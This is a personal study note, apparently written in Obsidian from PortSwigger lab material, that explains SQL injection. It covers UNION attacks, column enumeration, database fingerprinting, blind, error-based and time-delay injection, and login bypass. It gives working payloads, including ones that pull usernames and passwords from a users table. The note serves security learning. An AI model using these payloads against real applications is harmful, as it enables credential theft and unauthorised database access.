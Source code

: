 qw# Retrieving hidden data

simple attack -> `'+OR+1=1--`  [[WEB/vulnerabilities/SQL Injection/attack/payload#Retrieving hidden data#simple attack|example]]

## UNION attacks
##### concept:
<mark style="background: #FFB86CA6;">to retrieve data from other tables</mark> ->
- The individual queries must return the **same number of columns**.
- The **data types** in each column must be compatible between the individual queries.
### 1) number of columns required
- use `ORDER BY` -> `' ORDER BY [number]--` until you hit an error
- use `UNION SELECT` -> `' UNION SELECT NULL,NULL[...]--` -> until additional row in the result set (it is possible to get erros like `NullPointerException` or even same response as without null ) 
**Note**: On _Oracle_ databases, every `SELECT` statement must specify a table to select -> use `from dual`
### 2) Finding columns with a useful data type

- interesting data type = normally string type -> `UNION SELECT` 
```sql
' UNION SELECT 'a',NULL,NULL--
' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL,NULL,'a'--
```
`Conversion failed when converting the varchar value 'a' to data type int.` -> probably not suitable 

### 3) retrieve interesting data
- for example username and password from a table called users:
`' UNION SELECT username, password FROM users--`
#### multiple values within a single column
- use String Concatenation (different databases use different syntax) [[cheatsheet(portswigger)#String concatenation|see cheatsheet]]
	- example: `||` ->  `' UNION SELECT username || '~' || password FROM users--`  
## Examining the database

- database type and version [[WEB/vulnerabilities/SQL Injection/attack/payload#Examining the database|examples]]
	- _Microsoft, MySQL_ -> `SELECT @@version`
	- _PostgreSQL_ -> `SELECT version()`
	- _Oracle_ -> `SELECT * FROM v$version`
## Listing the contents 

- _Oracle_ [[WEB/vulnerabilities/SQL Injection/attack/payload#Listing the contents|examples]]
  - `all_tables`
  - `all_tab_columns`
- _all other databases_ -> `information_schema` 
  - `information_schema.tables`
  - `information_schema.columns`

# Blind SQL injection
##### concept:
-> when HTTP responses <mark style="background: #ADCCFFA6;">do not contain</mark> the *results of the relevant SQL query* or the *details of any database errors*.
## triggering conditional responses

1) the application does *behave differently(in response)* when faces with true/false conditional statement (example: `'1'='1` / `'1'='2`) in:
	- Parameters 
	- Cookies
	- HTTP Headers
2) determine the length of data you want to retrive using *`LENGTH`* 
3) use: 
	- Oracle: *`SUBSTR`*
	- non-Oracle: *`SUBSTRING`* [[WEB/vulnerabilities/SQL Injection/attack/payload#triggering conditional responses|example]]
## Error-based

### triggering conditional errors
- injecting different boolean conditions makes no difference to the application's responses -> *raise an error* by *injecting a condition query* -> use *`CASE`* keyword [[WEB/vulnerabilities/SQL Injection/attack/payload#triggering conditional errors|examples]]
### verbose SQL error messages

- verbose error -> find out about *context* -> easier to construct a valid query:
> `Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char`

- generate an error message that *contains some of the data* that is returned by the query -> turns blind into visible -> use *`CAST()`* keyword: [[WEB/vulnerabilities/SQL Injection/attack/payload#verbose SQL error messages|example]]
>`CAST((SELECT example_column FROM example_table) AS int)`
>-> `ERROR: invalid input syntax for type integer: "Example data"`
## triggering time delays

 - application catches database errors and handles them -> *delay* in *execution* of the SQL *query* [[WEB/vulnerabilities/SQL Injection/attack/payload#triggering time delays|examples]]
look for syntax in different databases -> [[cheatsheet(portswigger)#Time delays|Here]]

## out-of-band (OAST) techniques
#todo 

# Subverting application logic

simple attack -> `'--` [[WEB/vulnerabilities/SQL Injection/attack/payload#Subverting application logic#simple attack|example]]

# in different context 
#todo 
# Second-order SQL injection 
#todo 
